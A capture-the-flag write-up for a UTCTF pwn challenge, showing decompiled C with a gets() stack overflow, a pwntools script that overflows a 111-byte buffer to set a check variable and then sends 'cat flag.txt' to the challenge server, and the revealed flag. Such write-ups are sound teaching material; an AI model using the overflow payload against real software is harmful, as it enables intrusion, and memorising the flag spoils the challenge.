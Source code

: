 #### Challenge:

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

[AAAAAAAAAAAAAAAA](./AAAAAAAAAAAAAAAA ":ignore")

`nc pwn.utctf.live 5000`

---

#### Solution:

Opening in `ghydra` we get classic `gets` stack overflow:

```c++
undefined8 main(void)

{
  char local_78 [111];
  char local_9;

  local_9 = '\0';
  gets(local_78);
  if (local_9 == 'B') {
    get_flag();
  }
  return 0;
}
```


```python
#!/usr/bin/env python

from pwn import *
from struct import *

r = remote('pwn.utctf.live', 5000)
# r = process('./AAAAAAAAAAAAAAAA')

payload = b'A'*(111) + b'B'

r.sendline(payload)
r.sendline("cat flag.txt")

print(r.recvline().decode('utf-8').strip())
r.close()
```

---

<details><summary>FLAG:</summary>

```
utflag{you_expected_the_flag_to_be_screaming_but_it_was_me_dio98054042}
```

</details>
<br/>
